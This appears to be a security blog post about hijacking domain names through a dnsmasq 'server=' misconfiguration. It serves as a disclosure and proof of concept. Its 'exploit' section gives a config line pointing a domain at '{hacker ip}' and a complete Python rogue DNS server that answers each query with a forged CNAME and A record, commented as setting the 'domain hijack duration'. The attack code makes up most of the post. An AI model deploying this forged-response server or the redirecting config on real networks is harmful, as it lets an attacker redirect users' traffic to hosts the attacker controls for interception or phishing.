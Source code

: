 ```yaml
---
title: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
tags:
  - dns
  - dnsmasq
description: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
sitemap: false
abbrlink: d8547337
date: 2020-09-09 16:50:00
---
```


# dnsmasq
> Dnsmasq provides network infrastructure for small networks: DNS, DHCP, router advertisement and network boot. It is designed to be lightweight and have a small footprint, suitable for resource constrained routers and firewalls. It has also been widely used for tethering on smartphones and portable hotspots, and to support virtual networking in virtualisation frameworks. Supported platforms include Linux (with glibc and uclibc), Android, *BSD, and Mac OS X. Dnsmasq is included in most Linux distributions and the ports systems of FreeBSD, OpenBSD and NetBSD. Dnsmasq provides full IPv6 support.  

[dnsmasq homepage][1]

## exploit
1. add this config to `dnsmasq.conf` or `dnsmasq.d/poc.conf`
```
server=/a.net/{hacker ip}
```
then restart the dnsmasq to activate this config.  
* dnsmasq.conf is usually at /usr/local/etc/ if in mac os

2. run this code in the {hacker ip} - `poc.py`

```python
#!/usr/bin/env python3

import sys
from socket import socket, AF_INET, SOCK_DGRAM

class dns:
    def __init__(self):
        # hdr
        self.transactionID  = b"\x00\x00" # --
        self.flags          = b"\x81\x80"
        self.questionNum    = b"\x00\x01"
        self.answerRR       = b"\x00\x02"
        self.authorityRR    = b"\x00\x00"
        self.additionalRR   = b"\x00\x00"

        # queries - only one we need
        self.qname  = b"\x01a\x03net\x00" # -- 0x0c
        self.qtype  = b"\x00\x01"
        self.qclass = b"\x00\x01"

        # answers - CNAME
        self.cnameName    = b"\xc0\x0c"
        self.cnameType    = b"\x00\x05"
        self.cnameClass   = b"\x00\x01"
        self.cnameTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.cnameDataLen = b"\x00\x0d" # --
        self.cnameTarget  = b"\x07example\x03net\x00"  # --

        # answers - A
        self.aName    = b"\xc0\x19"  # --
        self.aType    = b"\x00\x01"
        self.aCLass   = b"\x00\x01"
        self.aTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.aDataLen = b"\x00\x04"
        self.aRecord  = b"\x01\x02\x03\x04"
    
    def _setReply(self, query: bytes):
        self.transactionID = query[:2]
        i = 0x0c
        while i < len(query):
            if query[i] == 0:
                break
            i += 1
        self.qname = query[0x0c:i+1]
        self.aName = ((len(self.qname) + 28) | 0xc000).to_bytes(2, byteorder="big")

    def build(self, query: bytes):
        """build dns response to query"""
        self._setReply(query)
        # build
        hdr = self.transactionID + self.flags + self.questionNum + self.answerRR + self.authorityRR + self.additionalRR
        query = self.qname + self.qtype + self.qclass
        answerCNAME = self.cnameName + self.cnameType + self.cnameClass + self.cnameTtl + self.cnameDataLen + self.cnameTarget
        answerA = self.aName + self.aType + self.aCLass + self.aTtl + self.aDataLen + self.aRecord

        return hdr + query + answerCNAME + answerA  


def dns_server(port: int):
    address = ('', port)
    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(address)
    print("Listen UDP on: ", port)
    while True:
        msg, addr = sock.recvfrom(8192)
        print("recv from:", addr)
        if len(msg) > 20:
            d = dns()
            data = d.build(msg)
            sock.sendto(data, addr)


if __name__ == '__main__':
    port = 53
    if len(sys.argv) > 1 and sys.argv[1].isdigit():
        port = int(sys.argv[1])
    dns_server(port)

```

3. check hijack

![poc][2]

[1]: http://www.thekelleys.org.uk/dnsmasq/doc.html
[2]: https://xchens-1254410906.cos.ap-shanghai.myqcloud.com/assets/images/dnsmasq_poc.jpeg

